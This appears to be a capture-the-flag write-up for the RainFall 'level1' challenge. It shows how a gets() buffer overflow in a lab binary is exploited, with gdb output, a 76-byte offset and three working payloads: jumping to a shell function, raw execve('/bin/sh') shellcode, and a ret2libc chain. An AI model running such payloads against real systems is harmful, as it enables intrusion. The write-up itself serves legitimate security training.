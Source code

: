 # level1

The binary presents doesn't take any arguments. It reads from `stdin` and do nothing if the input is less than 76 characters. And segfaults if the input is more  or equal than 76 characters.


## Step 1
Decompile the binary with `Ghidra` gives the following code: [source.c](https://github.com/lorispuchol/rainfall/blob/main/level1/source.c) 

> `run` pops a shell but it is never called

## Goal  


Overflow the buffer to overwrite the __return address__ of the function `main` with the address of the function `run`. It will make the `next instruction pointer (eip)` to point to `run`.

```bash 
(gdb) info functions
```

```console
0x08048444  run
0x08048480  main
```

`run` is at `0x08048444` __which is `0x44\x84\x04\x08` in little endian__. [see here](https://www.geeksforgeeks.org/little-and-big-endian-mystery/)




```console
level1@RainFall:~$ gdb level1 
(gdb) b *main+16
Breakpoint 1 at 0x8048490
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) disas
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
=> 0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x $eax
0xbffff6f0:	0x08048400
(gdb) p  0xbffff73c - 0xbffff6f0
$1 = 76
```

`eax` of `gets` will write at `0xbffff6f0`. The `eip` is at `0xbffff73c`. So we want to overwrite `eip` and write address of `run` in, by overflowing `eax`.

> 76 bytes between `eax` and `eip`

> Illegal instruction if the input is equal to 76 characters because EOL is not an instruction.

## Exploit with `run`

```bash
(python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat)  | ./level1
```


Or

```bash
(python -c 'print "A" * 76 + "\x44\x84\x04\x08"') > /tmp/payload
cat /tmp/payload - | ./level1
```

> `cat` and `-` are used to keep the stdin open


## Exploit with shellcode

Write a shellcode at the start of the buffer. and overwrite the return address with the address of the buffer.

The shellcode are instructions that will pop a shell: [found here](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)

shellcode size = 23 bytes

```bash
(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A" * (76-23) + "\xf0\xf6\xff\xbf"'; cat) | /home/user/level1/level1
```
> `\xf0\xf6\xff\xbf` is the address of the buffer.


## Exploit with ret2libc

Return to libc use the dependencies linked to the binary. and and use it  to pop a shell. [see here](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

```bash
(python -c 'print "a" * 76 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat ) | /home/user/level1/level1
```


First: address of system: `(gdb) p system`  
Second: address of exit: `(gdb) p exit`  
Third: address of "/bin/sh": `find &system,+9999999,"/bin/sh"`

https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue

> - Adresses are found in the main frame  
> - Dont forget to run the binary with the same environment as in gdb (give the entirer path to the binary and/or unset LINES COLUNMS)